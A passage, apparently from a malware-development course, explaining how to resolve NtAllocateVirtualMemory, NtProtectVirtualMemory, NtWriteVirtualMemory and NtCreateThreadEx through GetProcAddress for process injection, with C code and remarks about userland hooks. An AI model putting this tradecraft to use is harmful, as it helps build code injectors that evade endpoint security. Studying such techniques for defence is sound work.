 ```c
    IN 	PPS_ATTRIBUTE_LIST      AttributeList         // Pointer to PS_ATTRIBUTE_LIST structure (set to NULL)
);
```

`NtCreateThreadEx` looks similar to the `CreateRemoteThreadEx` WinAPI. `NtCreateThreadEx` is a very flexible syscall and can allow complex manipulation of the created threads. However, for our purpose, the majority of its parameters will be set to `NULL`.

### Implementation Using GetProcAddress and GetModuleHandle

Calling the syscalls will be done using several methods, starting with the commonly used `GetProcAddress` and `GetModuleHandle` WinAPIs. This technique is straightforward and has been used multiple times to dynamically call syscalls. As previously discussed, however, this method does not bypass any userland hooks installed on the syscalls.

In the code provided for download in this module, a `Syscall` structure is created and initialized using `InitializeSyscallStruct`, which holds the addresses of the syscalls used, as shown below.

```c
// A structure that keeps the syscalls used
typedef struct _Syscall {

	fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
	fnNtProtectVirtualMemory  pNtProtectVirtualMemory;
	fnNtWriteVirtualMemory    pNtWriteVirtualMemory;
	fnNtCreateThreadEx        pNtCreateThreadEx;

} Syscall, *PSyscall;


// Function used to populate the input 'St' structure
BOOL InitializeSyscallStruct (OUT PSyscall St) {

	HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
	if (!hNtdll) {
		printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	St->pNtAllocateVirtualMemory  = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
	St->pNtProtectVirtualMemory   = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
	St->pNtWriteVirtualMemory     = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
	St->pNtCreateThreadEx         = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

        // check if GetProcAddress missed a syscall 
	if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtCreateThreadEx == NULL)
		return FALSE;
	else
		return TRUE;
}
```
